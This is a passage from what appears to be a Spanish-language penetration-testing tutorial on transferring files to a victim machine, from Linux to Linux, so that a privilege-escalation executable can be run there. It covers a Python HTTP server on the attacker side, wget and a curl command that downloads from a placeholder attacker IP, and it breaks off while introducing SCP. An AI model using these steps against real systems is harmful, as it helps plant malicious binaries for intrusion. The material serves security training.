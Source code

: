 Una técnica para elevar privilegios consiste en introducir en la máquina víctima un ejecutable malicioso programado precisamente para elevar privilegios aunque también existen otros mecanismos.

A continuación vamos a ver distintos comandos que podemos utilizar para transmitir ficheros entre dos máquinas en función de la dirección de la transmisión y el tipo de sistema operativo.

En esencia, se tiene que lo que se hace en todos lo casos es montar una estructura servidor-cliente en la que se traspasa un fichero de un lado a otro haciendo uso de un **puerto** y un **protocolo**. La estructura que se monta depende del comando utilizado.

<br />

## 2.1. Linux a Linux.
### 2.1.1. Subir ficheros a la máquina víctima.

- **Servidor HTTP sencillo**: Mediante este método monta un servidor web python simple que también puede estar alojado en cualquier otro servidor pero lo usaremos por su sencillez, y luego lo descargaremos con wget en la víctima (o curl si no lo está, instalado).

	En primer lugar, desde la máquina atacante con **python -m SimpleHTTPServer 80** montamos un servidor en la carpeta desde la que vamos a coger un archivo desde la máquina víctima.
	
	

	<div style="text-align:center">
	<img src="{{ 'assets/img/M7/Pasted image 20220124151634.png' | relative_url }}" text-align="center"/>
	</div>

	Por otro lado, desde la máquina víctima nos conectamos al servidor montado llevando a cabo una petición **wget** **con el servicio que riga en el puerto en el que se ha montado el servidor en la máquina atacante**. En este caso a ser el puerto 80 nos corresponde una petición http.

	<div style="text-align:center">
	<img src="{{ 'assets/img/M7/Pasted image 20220124152014.png' | relative_url }}" text-align="center"/>
	</div>

	<br />
	
	<div style="text-align:center">
	<img src="{{ 'assets/img/M7/Pasted image 20220124152727.png' | relative_url }}" text-align="center"/>
	</div>

	La misma operación se puede efectuar con **curl**:
	
	```bash
	curl -o ficherotransferido http://<IPAtacker>/ficheroatraspasar
	```

	<br />

- **SCP** (SSH utility):

	Este método tan sólo es válido cuando la máquina víctima tiene el servicio ssh instalado y además tenemos las credenciales.
	
	En este contexto podemos utilizar **scp** para efectuar nuestra operación. 
	